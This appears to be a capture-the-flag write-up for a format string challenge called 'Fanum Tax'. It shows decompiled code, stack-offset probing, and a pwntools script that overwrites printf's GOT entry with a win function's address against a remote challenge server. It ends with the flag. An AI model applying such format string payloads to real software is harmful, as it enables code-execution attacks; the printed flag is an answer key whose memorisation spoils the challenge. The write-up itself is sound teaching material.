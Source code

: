 # Fanum Tax

Hello, they call me Theodore Rizzevelt and today you're gonna get mogged. The tiktok rizz party is out of control and only a true sigma can stop the skibid toilets. Surely a String bean like yourself can't find the flag. Get out of here before I send you back to Ohio.

nc 167.99.118.184 31337

## Challenge

Running checksec to see protections and file to see what we are working with:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
```
└─$ file fanum_strings 
fanum_strings: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d11382f596ec7275f9cb21f0d2d245e73612b5fd, for GNU/Linux 3.2.0, not stripped
```

Nothing super special, based of file name we can make a guess that the challenge will have something to do with format strings, and we can see that being a possibility as we have partial relro here which would allow us to overwrite entries in the global offset table.

```
└─$ ./fanum_strings    
Welcome to the Tiktok Rizz Party!
Can you prove that you're a sigma by fanum taxxing all the skibidi toilets?
How many hours do you want to looksmaxx for? 1
Hour 1: %p
0x7fb3c6a66963
Now let's see if you mog...
```

Running the binary we can see that we indeed have a format string.

```c
void main(void)

{
  long in_FS_OFFSET;
  int local_34;
  int i;
  int local_2c;
  char local_28 [24];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  puts("Welcome to the Tiktok Rizz Party!");
  puts("Can you prove that you\'re a sigma by fanum taxxing all the skibidi toilets?");
  printf("How many hours do you want to looksmaxx for? ");
  __isoc99_scanf("%d",&local_34);
  do {
    local_2c = getchar();
    if (local_2c == 10) break;
  } while (local_2c != -1);
  if ((local_34 < 1) || (0x18 < local_34)) {
    printf("You can\'t looksmaxx for that long!");
    FUN_00401140(0);
  }
  for (i = 0; i < local_34; i = i + 1) {
    printf("Hour %d: ",(ulong)(i + 1));
    fgets(local_28,24,stdin);
    printf(local_28);
  }
  puts("Now let\'s see if you mog...");
  FUN_00401140(0);
                    /* WARNING: Bad instruction - Truncating control flow here */
  halt_baddata();
}
```

In the decompiled code here from ghidra theres a few things to pick out. 
- We can execute up to 24 printf's or 24 hours 'looksmaxxing'
- We only get 24 characters to write to our variable being printed

We can also find a win function available inside the binary, so popping a shell wont be needed:
```c
void win(void)

{
  FILE *__stream;
  long in_FS_OFFSET;
  char local_58 [72];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  __stream = fopen("flag.txt","r");
  fgets(local_58,0x40,__stream);
  puts(local_58);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Given partial relro, the attack here is trivial. We just need to overwrite the address of printf in the got to be the address of win. We can do this as printf will already be populated in the got since it was called before the format string vulnerability, and because of that partial relro.

Now normally I would use pwntools here to just create a format string payload and send it off but I didn't want to worry about it being longer than 24 bytes so I just did it manually.

The idea here is that we have access to stack addresses, with that we can place our input onto the stack and then print it out using the format string:
```
└─$ ./fanum_strings 
Welcome to the Tiktok Rizz Party!
Can you prove that you're a sigma by fanum taxxing all the skibidi toilets?
How many hours do you want to looksmaxx for? 1
Hour 1: AAAAAAAA%8$p
AAAAAAAA0x4141414141414141
Now let's see if you mog...
```
Given that, we can use the `%n` specifier to write to an address, we just need to insert our address into a reachable pointer. And given that we can display an arbitrary pointer we can just write the address that we want to write to. And after that we can reference that pointer using its offset with `%{offset}$n` to write to it. The way that `%n` works is that it writes however many bytes have already been written into that address. So we just need to write the address of win in bytes (Meaning if win is at 0x100, we write 0x100 bytes), and to do that we will use `%x` which is used to write bytes.

And heres how we will do that:

```python
from pwn import *

elf = context.binary = ELF('./fanum_strings')
#p = process('./fanum_strings')
p = remote('167.99.118.184', 31337)

#Address that we want to write to
printf = 0x404028

#Writing 0x401237 bytes (address of win function), then writing that number into offset 10
'''  
We are writing into offset 10 because at offset 8 we have 8 bytes of our format string,
then at offset 9 we have another 8 bytes (hence the A for the 8th byte padding), and
then at offset 10 we are placing the address that we would like to write to.
'''
payload = b'%4198967x%10$lnA' + p64(printf)
p.sendlineafter(b'for?', b'2')
p.sendline(payload)
p.interactive()
```

Running this script will exploit the format string vulnerability to overwrite the printf got entry with the address of win and then print the flag.

## Flag

`SIVBGR{5up3r_4w350m3_5k1b1d1_r1zz}`